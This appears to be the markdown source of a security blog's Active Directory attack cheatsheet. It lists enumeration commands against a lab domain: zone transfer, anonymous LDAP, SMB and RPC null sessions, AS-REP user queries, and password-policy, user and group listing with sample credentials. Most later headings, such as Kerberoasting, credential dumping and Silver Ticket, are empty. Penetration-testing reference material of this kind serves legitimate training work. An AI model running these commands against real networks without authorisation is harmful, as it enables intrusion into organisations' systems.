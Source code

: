 ```yaml
---
layout: post
title:  Attacking Active Directory Cheatsheet
description: Cheatsheet for Attacking Active Directory
date:   2024-11-01 01:00:00 +0300
image:  '/images/10000.jpg'
tags:   [Cheatsheets, Tools, Active-Directory, Active-Directory-Enumeration, SMB, Kerberoasting, AS-REP-Roasting, DCSync, Silver-Ticket, ACLs, MSSQL, Credential-Dumping, Credential-Hunting]
---
```

### Uncredentialed Enumeration and Attacks
```shell
# DNS Zone Transfer
dig @172.16.150.10 AXFR vorkharium.com

# LDAP Anonymous Session Dump
ldapsearch -x -H ldap://172.16.150.10 -b "dc=vorkharium,dc=com"

# No-PreAuth Kerberos without Username
impacket-GetNPUsers vorkharium.com/ -dc-ip 172.16.150.10

# SMB Null Session with smbclient
smbclient -L 172.16.150.10 -N
smbclient -N -L //172.16.150.10
smbclient --no-pass -L //172.16.150.10
smbclient //172.16.150.10/Public -N
smbclient -U '%' -N \\\\172.16.150.10\\Public

# SMB Null Session with other tools
smbmap -H 172.16.150.10 -P 445
nxc smb 172.16.150.10 --shares -u 'guest' -p ''
crackmapexec smb 172.16.150.10 -u '' -p '' --shares
impacket-smbclient vorkharium.com/'':''@172.16.150.10

# RPC Null Session
rpcclient 172.16.150.10 -N
rpcclient -U "" -N 172.16.150.10
rpcclient -U="" 172.16.150.10

# RPC Commands
querydispinfo
enumdomusers
enumdomgroups
queryuser johnwick

# Command to get users and put them in users_rpc.txt
rpcclient -U "" 172.16.150.10 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > users_rpc.txt

# impacket-rpcdump
impacket-rpcdump -port 135 vorkharium.com/'':''@172.16.150.10

# enum4linux
enum4linux -U 172.16.150.10

```
### Domain Password Policy Enumeration
```shell
# NetExec and CrackMapExec
nxc smb 172.16.150.10 -u 'vivi' -p 'Thungada2000' --pass-pol
crackmapexec smb 172.16.150.10 -u 'tidus' -p 'ToZanarkand2001' --pass-pol

# enum4linux
enum4linux -U 172.16.150.10 # Without credentials
enum4linux -u john -p Cyberpunk2077 -U 172.16.150.10

# CMD and PowerShell
net accounts
net user john /domain

# PowerShell (Some require AD Module to be installed)
Get-ADDefaultDomainPasswordPolicy
(Get-ADDomain).DefaultPasswordPolicy
Get-WmiObject -Class Win32_NetworkLoginProfile | Select-Object -Property Name, PasswordExpirationDate
```
### Domain Users Enumeration
```shell
# With impacket-GetADUsers
impacket-GetADUsers -all -dc-ip 172.16.150.10 vorkharium.com/john:'Password123!'

# My custom way of creating a list of domain_users.txt list with one command
impacket-GetADUsers -all -dc-ip 172.16.150.10 vorkharium.com/john:'Password123!' | awk 'NR>3 {print $1}' >> domain_users.txt

```
### Groups Enumeration
```shell
# NetExec and CrackMapExec
nxc smb 172.16.150.10 -u john -p 'Password123!' --groups
crackmapexec smb 172.16.150.10 -u john -p 'Password123!' --groups

# CMD and PowerShell
# Domain groups
net group /domain
net group "Domain Admins" /domain # Specifying a domain group

# Local groups
net localgroup
net localgroup Administrators

# Current User groups
whoami /groups

# PowerShell (Some require AD Module to be installed)
Get-ADGroup -Filter *
Get-ADGroup -Filter *
Get-ADGroupMember -Identity "Administrators"
Get-LocalGroup
Get-LocalGroupMember -Group "Administrators"
Get-WmiObject -Class Win32_Group | Select-Object Name, Domain
Get-WmiObject -Class Win32_Group -ComputerName 172.16.150.10
```
### SMB Shares Enumeration and Access
```shell

```
### RPC Enumeration
```shell

```
### GPO cPassword
```shell

```
### Password Spraying
```shell

```
### Local PowerShell Enumeration
```shell

```
### Local Credential Hunting
```shell

```
### Runas and RunasCs.exe
```shell

```
### BloodHound, SharpHound.exe, bloodhound-python
```shell

```
### PowerView.ps1
```shell

```
### Impacket PsExec, WmiExec and SMBExec - SMB Shell Access with Password or Pass-the-Hash
```shell

```
### Evil-WinRM - Access WinRM with Password or Pass-the-Hash
```shell

```
### xfreerdp - Access RDP with Password or Pass-the-Hash
```shell

```
### Kerberoasting with Impacket
```shell

```
### Kerberoasting with Rubeus.exe
```shell

```
### AS-REP Roasting with Impacket
```shell

```
### Remote Credential Dumping with Impacket and NetExec
```shell

```
### Local Credential Dumping with Mimikatz and Impacket
```shell

```
### Silver Ticket
```shell

```
### ACLs
```shell

```
### MSSQL to gain Shell
```shell

```